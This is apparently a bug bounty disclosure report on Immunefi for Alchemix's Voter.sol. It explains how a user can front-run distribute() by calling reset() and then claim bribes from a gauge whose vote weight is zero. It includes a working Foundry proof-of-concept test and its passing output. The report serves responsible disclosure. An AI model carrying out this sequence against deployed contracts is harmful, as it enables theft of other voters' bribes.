 
# Malicious users can front-run the distribution transaction to steal bribes

Submitted on Sun May 12 2024 08:17:54 GMT-0400 (Atlantic Standard Time) by @Ch301 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31085

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed royalties

## Description
## Brief/Intro

The pool weight is zero but users are still able to claim bribes.

## Vulnerability Details

First, let's understand two main points:

1- When a user invokes `Voter.sol#vote()`[#1] will update `lastVoted[_tokenId]` to `block.timestamp`
```solidity
File: Voter.sol

508:         lastVoted[_tokenId] = block.timestamp;

```
Users to be able to reset the voting status, need to call `Voter.sol#reset()`. However, the modifier `onlyNewEpoch()` will force the user to wait until a new epoch starts since the last vote. So user can call `reset()` at the first second of the new epoch.
```solidity
File: Voter.sol

110:         require((block.timestamp / DURATION) * DURATION > lastVoted[_tokenId], "TOKEN_ALREADY_VOTED_THIS_EPOCH");

```

 2- To distribute rewards and bribes to all gauges you need to call `Voter.sol#distribute()` only once per epoch. (Normally this is done by off-chain bots)
```solidity
File: Voter.sol

408:     function _distribute(address _gauge) internal {
409:        
410:         // Distribute once after epoch has ended
411:         require(
412:             block.timestamp >= IMinter(minter).activePeriod() + IMinter(minter).DURATION(),
413:             "can only distribute after period end"
414:         );

```
Now, the first point updates all the related values, but the `Bribe.sol#withdraw()` will create a new checkpoint `X` (see: `_writeCheckpoint()`[#2]) this checkpoint get considered for the new epoch not the last epoch.

Next time the user calls `voter.sol#claimBribes()`. the `balanceOf` of the epoch `X - 1` will allow the user to claim all/part from the bribes even if he didn't help the gauge to generate more emrssions

```solidity
File: Bribe.sol
232:     function earned(address token, uint256 tokenId) public view returns (uint256) {
        /***/
262:                 if (_nextEpochStart > prevRewards.timestamp) {
263:                     reward += prevRewards.balanceOf;
264:                 }

```

## Impact Details

1- If the malicious user is the only one who votes to a gauge, He will claim all the bribes if they exist and the pool will receive zero emissions.

2- If there are multiple users vote for that particular pool, the malicious user will steal a part from other user's bribes.

## References
#1: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol#L449

#2: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Bribe.sol?utm_source=immunefi#L351-L360
        
## Proof of concept
## Proof of Concept
Foundry PoC:
1. Please copy the following PoC in `Voting.t.sol`
```solidity
    function test_bribes_poc_01() public {
        {//set up
            uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);

            address bribeAddress = voter.bribes(address(sushiGauge));

            address[] memory pools = new address[](1);
            pools[0] = sushiPoolAddress;
            uint256[] memory weights = new uint256[](1);
            weights[0] = 5000;

            address[] memory bribes = new address[](1);
            bribes[0] = address(bribeAddress);
            address[][] memory tokens = new address[][](1);
            tokens[0] = new address[](1);
            tokens[0][0] = bal;

            // in epoch i, user votes with balance x
            hevm.prank(admin);
            voter.vote(tokenId1, pools, weights, 0);

            // Start epoch
            hevm.warp(newEpoch());
            voter.distribute();
        }

        hevm.prank(admin);
        voter.vote(tokenId1, pools, weights, 0);

        // Add BAL bribes to sushiGauge
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        /*@audit you can call `distribute()`only starting from `IMinter(minter).activePeriod() + IMinter(minter).DURATION()` */
        // Start second epoch. this is the first second of the second epoch.
        hevm.warp(newEpoch() - 1);
        //! user front-run the `distribute()` transaction 
        hevm.prank(admin);
        voter.reset(tokenId1);

        //! weight is zero
        uint weight = voter.weights(sushiPoolAddress);
        assertEq(weight, 0);

        voter.distribute();

        uint256 balanceStart = IERC20(bal).balanceOf(admin);

        // Claim bribes from epoch i
        hevm.warp(block.timestamp + 100);
        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, tokenId1);
        uint256 balanceEnd = IERC20(bal).balanceOf(admin);
        
        //! weight is zero but the user still able to claim the bribes
        assertGt(balanceEnd, balanceStart);
    }
```
2. Test result:
```diff
Ran 1 test for src/test/Voting.t.sol:VotingTest
[PASS] test_bribes_poc_01() (gas: 3792050)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 52.46s (37.28s CPU time)

Ran 1 test suite in 54.39s (52.46s CPU time): 1 tests passed, 0 failed, 0 skipped 
(1 total tests)
```
